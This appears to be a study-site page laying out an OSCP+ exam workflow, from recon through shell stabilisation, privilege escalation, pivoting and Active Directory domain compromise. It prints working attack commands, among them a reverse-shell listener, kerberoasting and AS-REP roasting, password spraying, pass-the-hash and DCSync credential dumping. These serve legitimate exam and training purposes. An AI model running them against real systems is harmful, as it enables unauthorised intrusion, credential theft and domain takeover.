

# Exam Workflow { #exam-workflow }

<div class="dfir-meta" markdown>
**Applies to:** the whole exam, every machine · **Last updated:** 2026-11-03
</div>

!!! abstract "In one sentence"
    The whole exam as one pipeline: recon → foothold → stable shell → privilege escalation on each standalone, and for the AD set an assumed-breach chain of enumerate → roast / spray → pivot → move laterally → own the domain. Each stage below says what to run, what "done" looks like, and which page has the detail.

!!! warning "Rules first"
    Several common tools are **banned or limited** in the exam (sqlmap, Nessus-style scanners, Burp Pro, spoofing/poisoning, AI chatbots, Metasploit beyond one target). They are flagged with red boxes on each page and summarised on [Exam format › Restricted](exam-format.md#restricted). Always re-read the official **OSCP+ Exam Guide** before you sit the exam — the rules change.

!!! tip "Practical companion"
    For command selection, output interpretation and failure diagnosis, use the [practical field guide](practical-guide.md#workspace); for Windows/AD protocol detail, use the [Impacket handbook](impacket.md).

## The pipeline at a glance { #pipeline }



| Stage | Goal / "done" when… | Main tools | Page |
|---|---|---|---|
| 1. Recon | Every TCP port + top UDP ports known, versions noted | nmap, nxc, smbclient, enum4linux-ng, snmpwalk | [Recon & enumeration](recon-enumeration.md) |
| 2. Initial access | Command execution as any user | ffuf / feroxbuster / gobuster, Burp CE, nikto, searchsploit, hydra | [Web & initial access](web-initial-access.md) |
| 3. Stabilise | Interactive TTY / reverse shell, tools uploaded | msfvenom, nc / rlwrap, python http.server, smbserver | [Shells & file transfer](shells-file-transfer.md) |
| 4a. Linux privesc | root shell | LinPEAS, pspy, GTFOBins | [Linux privesc](privesc-linux.md) |
| 4b. Windows privesc | SYSTEM / Administrator | WinPEAS, PrintSpoofer / GodPotato, LOLBAS | [Windows privesc](privesc-windows.md) |
| 5. AD — assumed breach | Valid creds mapped to hosts; an attack path chosen | NetExec, BloodHound CE, Kerbrute, Impacket | [Active Directory](active-directory.md) |
| Cracking | Hash → password | hashcat, john | [Password attacks](password-attacks.md) |
| 6. Pivot | Kali can route to the internal subnet | ligolo-ng, chisel, ssh | [Pivoting](pivoting.md) |
| 7. Lateral movement | Shell on the next host | evil-winrm, psexec / wmiexec, mssqlclient | [Active Directory › Lateral movement](active-directory.md#lateral-movement) |
| 8. Domain compromise | DC `proof.txt` | secretsdump (DCSync), mimikatz, Rubeus | [Active Directory › Domain compromise](active-directory.md#domain-compromise) |

## Before the clock starts { #setup }

Put a small environment file in your workspace so every command below copy-pastes:

```bash
# ~/exam/env.sh  —  source it in every tmux pane
export KALI=192.168.45.5          # your tun0 IP
export IP=192.168.120.10          # current standalone
export DC=10.10.120.100           # AD set
export DOMAIN=oscp.exam
export USER_='eric.wallows'       # assumed-breach user (USER is taken by the shell)
export PASS='EricLikesRunning800'
```

```bash
mkdir -p ~/exam/{ms01,ms02,dc01,sa1,sa2,sa3}/{nmap,loot,exploit,screens}
ip -4 addr show tun0      # confirm KALI
```

- One tmux window per machine, one pane for a listener.
- Stage your tools before the start: `ligolo-ng` proxy + agents (Linux / Windows), `chisel`, `linpeas.sh`, `winPEASx64.exe`, `pspy64`, `PrintSpoofer64.exe`, `GodPotato-NET4.exe`, `SharpHound.exe`, `Rubeus.exe`, `mimikatz.exe`, `nc.exe` — in one folder you can serve with `python3 -m http.server`.

## Stage 1 — Recon { #stage-recon }

Run the full TCP sweep on every target in the background while you start on the first ports.

```bash
sudo nmap -p- --min-rate 2000 -Pn -oN nmap/all.txt $IP
ports=$(grep -oP '^\d+(?=/tcp\s+open)' nmap/all.txt | paste -sd,)
sudo nmap -sC -sV -Pn -p$ports -oN nmap/svc.txt $IP
sudo nmap -sU --top-ports 25 -Pn -oN nmap/udp.txt $IP
```

**Read:** versions, hostnames in certificates / SMB banners (→ `/etc/hosts`), anonymous access flags in NSE output. **Next:** one investigation per port → [Recon & enumeration](recon-enumeration.md).

## Stage 2 — Initial access { #stage-initial-access }

Work cheapest first: anonymous / default creds → known-vulnerable version (`searchsploit`) → web content discovery → app logic (SQLi, LFI, upload) → brute force only with a real username and a reason.

**Done when:** you have command execution — even a web shell. **Next:** turn it into a real reverse shell (stage 3). Detail → [Web & initial access](web-initial-access.md).

!!! danger "Exam rule"
    No sqlmap, no Nessus / OpenVAS / nuclei-style mass scanning, no Burp Pro. Manual SQLi with Burp Community Repeater instead → [Manual SQLi](web-initial-access.md#sqli).

## Stage 3 — Stabilise the shell { #stage-stabilise }

```bash
rlwrap -cAr nc -lvnp 443                           # listener (Windows shells)
python3 -c 'import pty; pty.spawn("/bin/bash")'   # Linux: then Ctrl-Z
stty raw -echo; fg; export TERM=xterm
```

**Done when:** arrow keys work, Ctrl-C doesn't kill the shell, and you can pull files from Kali. Screenshot `local.txt` **from this interactive shell**, with `ip addr` / `ipconfig` in the same shot. Detail → [Shells & file transfer](shells-file-transfer.md).

## Stage 4 — Privilege escalation { #stage-privesc }

=== "Linux"

    `sudo -l` → SUID / capabilities → cron (`pspy64`) → credentials in files → LinPEAS → kernel last.
    Detail → [Linux privesc](privesc-linux.md).

=== "Windows"

    `whoami /priv` (SeImpersonate → potato) → WinPEAS → services / tasks → stored creds → AlwaysInstallElevated.
    Detail → [Windows privesc](privesc-windows.md).

**Done when:** `proof.txt` is shown with `whoami` and the IP in one screenshot.

## Stage 5 — AD set: assumed breach { #stage-ad }

You get a domain user. In order:

```bash
echo "$DC dc01.$DOMAIN dc01 $DOMAIN" | sudo tee -a /etc/hosts
nxc smb 10.10.120.0/24 -u "$USER_" -p "$PASS"                 # where does it work?
nxc winrm 10.10.120.0/24 -u "$USER_" -p "$PASS"
nxc smb $DC -u "$USER_" -p "$PASS" --pass-pol --users --shares
bloodhound-ce-python -u "$USER_" -p "$PASS" -d $DOMAIN -ns $DC -c All --zip
impacket-GetUserSPNs "$DOMAIN/$USER_:$PASS" -dc-ip $DC -request -outputfile kerb.hash
impacket-GetNPUsers "$DOMAIN/$USER_:$PASS" -dc-ip $DC -request -outputfile asrep.hash
```

!!! note "The external host"
    In most sets the first machine (MS01) is the only one reachable from Kali; the internal hosts sit behind it. The assumed-breach user often logs in to MS01 only — so the first job is usually *local privesc on MS01*, then loot, then pivot.

**Read:** `Pwn3d!` in NetExec output (= local admin), lockout threshold, kerberoastable / AS-REP users, outbound ACLs in BloodHound. **Next:** crack → [Password attacks](password-attacks.md), then try every new credential everywhere. Detail → [Active Directory](active-directory.md).

!!! danger "Exam rule"
    No Responder / mitm6 / ARP poisoning (spoofing). To get a NetNTLMv2 hash, make the target connect to *your* SMB server instead → [Coercion without spoofing](active-directory.md#coercion).

## Stage 6 — Pivot { #stage-pivot }

As soon as MS01 shows a second NIC (`ipconfig /all`), run a ligolo-ng agent there and route the internal subnet:

```text
ligolo-ng » session
ligolo-ng » interface_add_route --name ligolo --route 10.10.120.0/24
ligolo-ng » tunnel_start --tun ligolo
```

**Done when:** `nxc smb 10.10.120.0/24` from Kali lists the internal hosts. Detail → [Pivoting](pivoting.md).

## Stage 7 — Lateral movement { #stage-lateral }

Loot MS01 first (`secretsdump`, mimikatz, PowerShell history, files) → spray the new hashes / passwords across the internal subnet:

```bash
nxc smb 10.10.120.0/24 -u administrator -H <NT> --local-auth
nxc winrm 10.10.120.0/24 -u svc_sql -p 'Found_Pass1' 
evil-winrm -i 10.10.120.141 -u svc_sql -p 'Found_Pass1'
```

Detail → [Active Directory › Lateral movement](active-directory.md#lateral-movement).

## Stage 8 — Domain compromise { #stage-domain }

With a Domain Admin credential or a user that has replication rights:

```bash
impacket-secretsdump "$DOMAIN/da_user:Pass@dc01.$DOMAIN" -just-dc-user Administrator
impacket-psexec -hashes :<NT> "$DOMAIN/Administrator@dc01.$DOMAIN"
```

Screenshot `proof.txt` on the DC with `whoami` and `ipconfig`. Detail → [Active Directory › Domain compromise](active-directory.md#domain-compromise).

## Time budget { #time-budget }

| Block | Suggested budget | If it stalls |
|---|---|---|
| Warm-up standalone | 2–3 h | Note it, move to AD |
| AD set | 6–8 h | After ~2 h with *no new information*, switch to a standalone |
| Remaining standalones | Rest | Rotate every 60–90 min |
| Report material check | 1 h before the end | Re-take any missing screenshot while shells are alive |

See [Exam-day strategy](exam-day.md) and [Exam format › Scoring strategy](exam-format.md#scoring-strategy).

## Related pages

- [Methodology & habits](methodology.md) · [Reporting](reporting.md) · [Exam format](exam-format.md)
- Defender view of the same chain: [Adversary techniques](../../adversary/index.md) · [Windows forensics](../../windows/index.md) · [Network](../../network/index.md)
- [Red Team: Initial Access](../../redteam/initial-access.md) · [Red Team: Post-Exploitation](../../redteam/post-exploitation/index.md)

## References

- [OffSec — OSCP+ Exam Guide](https://help.offsec.com/hc/en-us/articles/360040165632)
- [HackTricks](https://book.hacktricks.xyz/)
